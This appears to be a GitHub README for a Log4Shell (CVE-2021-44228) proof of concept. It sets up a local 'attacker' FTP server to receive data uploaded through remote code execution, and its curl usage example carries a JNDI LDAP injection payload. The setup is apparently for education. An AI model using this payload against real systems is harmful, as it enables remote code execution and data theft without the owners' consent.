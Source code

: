 # log4jshell
log4jshell is an full fledged POC that exploit LOG4J vulnerability [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) introduced as part of [LOG4J2-313](https://issues.apache.org/jira/browse/LOG4J2-313)  

```
NOTE : 

PLEASE USE THIS APP ONLY FOR EDUCATION PURPOSE.

THIS APP IS DEVELOPED AS A PROOF OF CONCEPT(POC) AND IS INTENTEDED ONLY FOR EDUCATION PURPOSE. 

USING THIS POC APP TO TARGET AGAINST ANY SYSTEMS WITHOUT CONSENT IS PURELY ILLEGAL.

ANY DAMAGES CAUSED DUE TO ILLEGAL USE OF THIS APP/SOFTWARE/POC IS NOT THE RESPONSIBILITY OF THE AUTHOR.

```
![Log4JShell POC](https://user-images.githubusercontent.com/1702155/148016568-357dada4-736f-4e54-a585-5ba70e0d86ba.jpg)

˚≠
## Pre-requisites
* [Python 3](https://www.python.org/downloads/)
* [Java 1.8](https://docs.oracle.com/javase/8/docs/technotes/guides/install/install_overview.html)
* [Apache Tomcat 1.9](https://tomcat.apache.org/download-90.cgi)
* [IntelliJ CE or Eclipse](https://www.jetbrains.com/idea/)


## Installation

Use the python package manager [pip3](https://pip.pypa.io/en/stable/) to install foobar.

```bash
pip3 install pyftpdlib
```

Create the FTP upload directory where the RCE will upload the information

```bash
mkdir -p /tmp/ftpuploads
```

Start the FTP Server locally
```bash
python3 src/main/python/attacker/ftp-server.py
```

## Usage

```bash
curl --location --request GET 'http://localhost:8080/log4jshell/search' \
--header 'Content-Type: application/json' \
--data-raw '{
    "searchText" : "${jndi:ldap://localhost:8389/com.demo.exploit.log4jshell.attacker.payload.Exploit.class}"
}
'
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Acknowledgments

Some of the references code that I have used to build this POC are listed below

* [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
* [rfc2713](https://datatracker.ietf.org/doc/html/rfc2713)
* [marshalsec](https://github.com/mbechler/marshalsec)
* [veracode-research](https://github.com/veracode-research/rogue-jndi)
* [black hat](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)


